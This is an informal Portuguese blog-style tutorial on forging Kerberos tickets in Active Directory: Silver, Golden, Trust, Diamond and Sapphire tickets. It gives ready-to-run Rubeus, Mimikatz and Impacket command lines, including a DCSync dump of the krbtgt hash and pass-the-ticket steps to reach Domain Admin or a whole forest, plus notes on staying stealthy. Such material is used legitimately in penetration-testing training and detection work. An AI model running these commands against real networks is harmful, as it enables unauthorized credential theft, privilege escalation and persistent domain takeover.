 ```yaml
---
title: 'Forjando Tickets do Kerberos'
layout: post
---
```


Forjando Tickets do Kerberos
===

![anaozinho foda forjando sla oq](https://images-wixmp-ed30a86b8c4ca887773594c2.wixmp.com/f/8dbfd9e6-f858-45e7-a042-95aa86b75aba/dgfoyil-c97a86d1-0303-4d0f-a051-62740542d9a3.png/v1/fill/w_1182,h_676,q_70,strp/dwarven_steel__the_ironforge_legacy_by_bogi380_dgfoyil-pre.jpg?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1cm46YXBwOjdlMGQxODg5ODIyNjQzNzNhNWYwZDQxNWVhMGQyNmUwIiwiaXNzIjoidXJuOmFwcDo3ZTBkMTg4OTgyMjY0MzczYTVmMGQ0MTVlYTBkMjZlMCIsIm9iaiI6W1t7ImhlaWdodCI6Ijw9MTA5OCIsInBhdGgiOiJcL2ZcLzhkYmZkOWU2LWY4NTgtNDVlNy1hMDQyLTk1YWE4NmI3NWFiYVwvZGdmb3lpbC1jOTdhODZkMS0wMzAzLTRkMGYtYTA1MS02Mjc0MDU0MmQ5YTMucG5nIiwid2lkdGgiOiI8PTE5MjAifV1dLCJhdWQiOlsidXJuOnNlcnZpY2U6aW1hZ2Uub3BlcmF0aW9ucyJdfQ.P1ZCrVtyq4QUq4qqMzVd4_DvqIzfJQUH41f55w59GB0)

[toc]

# Introdução
Resolvi escrever esse artigo pq sim, to entediado, e eu sei q o conteúdo desse artigo é de leigo, mas to sem ideia doq escrever msm, é isso.
# Kerberos
![image](https://hackmd.io/_uploads/r14yrsnNyx.png)
>cachorro endiabrado do capeta huaaaaaaaaarhrr half half har har

O Kerberos é um protocolo de autenticação que verifica as identidades de usuarios ou hosts utilizando um sistema de tickets digitais.

O Kerberos usa uma criptografia simétrica mas também pode usar criptografia assimétrica durante determinadas fases da autenticação, e o Kerberos usa a porta 88 (UDP) por padrão.

Basicamente no kerberos o cliente se autentica no AS (Authentication Server) do KDC (Key Distribution Center), que o KDC emite um TGT (ticket) criptografado com uma key do TGS (Ticket granting server), com o TGT o usuário pode se autenticar em diversos serviços, desde que o serviço esteja registrado no TGS com um SPN (Service Principal Name), dai o TGS retorna um ST (Service Ticket) e uma session key pro cliente.

Também gostaria de pontuar sobre o PAC ((Privileged Authentication Certificate), q é um conjunto de dados contidos num TGT/ST que tem informações sobre a respectiva conta, como nome do usuário, grupos q ele tá, etc...

E a LT-Key do KDC (Long-Term Key), q é a hash de uma conta, podendo ser RC4, DES/AES, etc...
## Silver Ticket
A LTKey de uma conta de um serviço pode ser usada para forjar um ST que pode mais tarde ser passado pelo Pass-the-ticket para acessar esse serviço, no caso o atacante vai forjar um ST com o PAC do usuario-alvo q ele quer acessar o serviço

Para criar um silver ticket, o atacante precisa encontrar a chave RC4 da conta de serviço alvo (ou seja, hash NT) ou a chave AES (128 ou 256 bits).

Isso pode ser feito capturando uma resposta NTLM (de preferência NTLMv1) e decifrando ela, ou dumpando secrets do LSA, tem N formas de fazer isso, mas n vou focar nisso agr.

Uma alternativa muito melhor e mais stealth pra fazer um silver ticket é abusar do **S4U2self** para se fazer passar por um usuario do domain com privilégios de admin **local** na máquina alvo.

Essa alternativa é superior pois enquanto um Silver Ticket normal é um Service Ticket que apresenta um PAC **forjado**, o Service Ticket emitido pelo S4U2self é legítimo e apresenta um PAC **válido**.

### Agora mão na massa:
Vou usar o Rubeus pra isso.

Pegando um TGT
```
Rubeus.exe tgtdeleg /nowrap
```
Usando o TGT pra pegar um Service Ticket com o S4U2self, se passando por outro user do domain
```
Rubeus.exe s4u /self /nowrap /impersonateuser:"USUARIO" /altservice:"cifs/MAQUINAAAAA" /ticket:"TICKET EM B64"

impersonateuser = usuario pra ser impersonated
     altservice = sname
         ticket = tgt (b64)
```
Ai dps que tu ter o Service Ticket, só fazer PTT pra pegar Domain Admin.

> Uma grande diferença do silver ticket pro golden ticket é q a hash necessária é mais fácil de obter e não necessita de uma comunicação com o DC quando é utilizada, deixando a detecção mais dificil doq a de um golden ticket (mas lembrando, hj em dia ambos são facilmente detectados)
## Golden Ticket
A LTKey da conta **KRBTGT** pode ser usada para forjar um TGT especial que pode ser usado pro Pass-the-ticket também, pra acessar qualquer recurso no domínio do AD.

A key do krbtgt é usada para encriptar o PAC, no Golden Ticket o atacante vai pegar a ltkey do krbtgt e vai forjar um PAC indicando que o usuario-alvo pertence a um grupo privilegiado, esse PAC vai ser incorporado num TGT forjado q vai ser usado pra solicitar Service Tickets q incluirão o PAC forjado pelo atacante

Pra fazer o Golden Ticket vc ja precisa ter um user com privilegios de admin no dc

Agora podemos pegar a hash do KRBTGT com o Mimikatz
```
mimikatz.exe "lsadump::dcsync /domain:DOMAINFODAA /user:krbtgt"

domain = domain alvo
  user = krbtgt, n muda isso
```
Agr vc pode usar o Mimikatz pra fazer o Golden Ticket, mas primeiro vc precisa do SID (Security Identifier) do DC, vc pode fazer isso com o WMI
```
wmic useraccount where name="TEU_USER" get sid

name = teu usuario atual no dc
```
Agora com o sID tu pode forjar o golden ticket com o Mimikatz ou o Rubeus, no caso eu usei o Mimikatz
```
mimikatz.exe "kerberos::golden /user:fds /domain:DOMAINFODAA /sid:SIDDDDD /aes256:HASHDOKRBTGT /ptt"

  user = usuario
domain = domain
   sid = sid
aes256 = hash do KRBTGT, pode ser RC4, aes128 etc, depende do ambiente, no caso foi aes256
   ptt = pass-the-ticket
```

### OPSEC - Silver/Golden
Os silver e golden tickets podem normalmente ser detectados por XDRs que monitorem qualquer pedido pro TGS `KRB_TGS_REQ` sem um pedido de TGT `KRB_AS_REQ` correspondente, sem contar que apresentam PACs forjados q muitas vezes n conseguem imitar um PAC real.
## Trust Ticket
Coloquei o Trust Ticket embaixo do Golden Ticket pq são semelhantes..

Os trust tickets são tickets forjados pra domain trusts.

Podemos criar o ticket com o mimikatz:
```
mimikatz.exe "kerberos::golden /domain:DOMAIN /sid:SIDDD /rc4:HASH /user:Administrator /service:krbtgt /target:DOMAIN_ALVO /ticket:pica.kirbi"

 domain = domain atual
    sid = sid do admin do teu domain atual
    rc4 = HASH do krbtgt (como eu disse anteriormente, pd ser qualquer, aes256, etc..)
 target = domain-alvo pra tu acessar
service = servico 
 ticket = arquivo pra salvar o ticket gerado
```

Dps usa o ticket criado pra fazer uma req no TGS pra um serviço pro domain-alvo, podemos fazer isso pelo Rubeus
```
Rubeus.exe asktgs /ticket:pica.kirbi /service:cifs/DOMAINALVO /ptt /dc:DCALVO

 ticket = arquivo com o ticket criado
service = servico alvo (no caso foi CIFS)
     dc = dc alvo
```

Vc pode pegar uma forest inteira com um trust ticket, se vc pegar o SID do Enterprise Admin e forjar um ticket.
## Diamond Ticket
Os diamond tickets podem ser uma alternativa boa pro golden e silver ticket, na medida em que se limita a pedir um ticket normal, desencriptar o PAC, modificar, recalcular as assinaturas e encriptar novamente. E só requer o conhecimento da LTKey do serviço de destino (pode ser o krbtgt pra um TGT, ou um serviço de destino pra um Service Ticket).

O diamond ticket é bem similar ao Golden Ticket, porém mais stealth.

Rubeus:
```
Rubeus.exe diamond /domain:DOMAINFDS /user:USERFDS /password: BLUBLUBLE /dc:DCCCCC.DDC.DC /krbkey:KEYYYYYYdoKRBTGT /ticketuser:krbtgt  /ticketuserid:500 /groups:512 /ptt

      domain = domain
        user = usuario atual
    password = senha do usuario atual
          dc = domain controller
      krbkey = key do usuario
  ticketuser = usuario  q a tgt vai ser modificada
ticketuserid = id do usuario
      groups = id do grupo (512 é dos domain admin)
```
## Sapphire Ticket
O Sapphire Ticket é semelhante ao Diamond Ticket pois não é um ticket forjado, mas sim baseado num ticket legítimo obtido após um pedido.

A unica diferença é que o PAC no Diamond Ticket é modificado pra adicionar alguns grupos privilegiados ou é substituido por outro PAC forjado, enquanto no Sapphire Ticket o PAC é roubado de outro usuário com privilégios superiores, por meio do S4U2self e U2U.

Assim, se um usuario pedir um ST U2U de si próprio para si próprio pode desencriptá-lo e pegar o PAC e sua hash, isso significa q se tu conseguir escrever na propriedade `msDS-KeyCredentialLink` de um usuário já era.

No caso vou usar o Impacket, mais precisamente o `ticketer` do Impacket.
```
python3 ticketer.py -request -impersonate 'administrator' -domain 'domainnn' -user 'usuario' -password 'senha' -aesKey 'keyaes' -domain-sid 'siddomain' 'ignored'

    domain = domain
      user = user atual
  password = senha do user atual
    aeskey = hash do krbtgt
domain-sid = sid do domain
```
